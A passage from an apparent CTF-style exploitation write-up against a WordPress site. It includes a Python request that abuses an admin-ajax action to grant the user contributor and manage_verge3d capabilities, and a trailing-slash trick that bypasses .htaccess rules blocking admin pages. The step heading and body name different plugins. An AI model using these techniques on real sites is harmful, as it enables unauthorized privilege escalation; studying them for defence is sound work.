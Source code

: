 This function allows users to update their metadata, but there are restrictions that prevent us from escalating privileges to `administrator`, `editor`, or `author`. However, we can assign ourselves `contributor` privileges and additional capabilities like `manage_verge3d`, which we will use in later steps.

We can craft the following request to change our user’s capabilities:

```python
res = await api.c.post("/wp-admin/admin-ajax.php", params={
    "action": "build-app-online-update-address",
}, data={
    "wp_capabilities[contributor]": 1,
    "wp_capabilities[manage_verge3d]": 1,
})

```

By assigning these capabilities, we can progress further in the exploitation process and gain the ability to manage certain functionalities, such as those in **Verge3D**.

### Step 3: **Exploiting PHP Object Injection in Essential Addons for Elementor**

By adding the `wp_capabilities[contributor]` role, we gain access to create posts on the target WordPress site. This allows us to exploit the vulnerable code in **MStore API**.

There’s a WAF (Web Application Firewall) in the `.htaccess` file, as shown below:

```xml
# BEGIN WordPress
# The directives (lines) between "BEGIN WordPress" and "END WordPress" are
# dynamically generated, and should only be modified via WordPress filters.
# Any changes to the directives between these markers will be overwritten.
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteCond %{THE_REQUEST} media($|\\ |\\?)  [NC]
RewriteRule .*  - [F]
RewriteRule .* - [E=HTTP_AUTHORIZATION:%{HTTP:Authorization}]
RewriteBase /
RewriteRule ^index\\.php$ - [L]
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule . /index.php [L]
RewriteRule ^wp-admin/edit.php$ - [F]
RewriteRule ^wp-admin/post-new.php$ - [F]
RewriteRule ^wp-admin/post.php$ - [F]
RewriteRule ^wp-admin/edit-comments.php$ - [F]
</IfModule>

```

This configuration blocks access to certain admin pages like `/wp-admin/edit.php` and `/wp-admin/post-new.php`. However, you can bypass this restriction by simply adding a slash (`/`) at the end of the URL, like so: `/wp-admin/post-new.php/`.
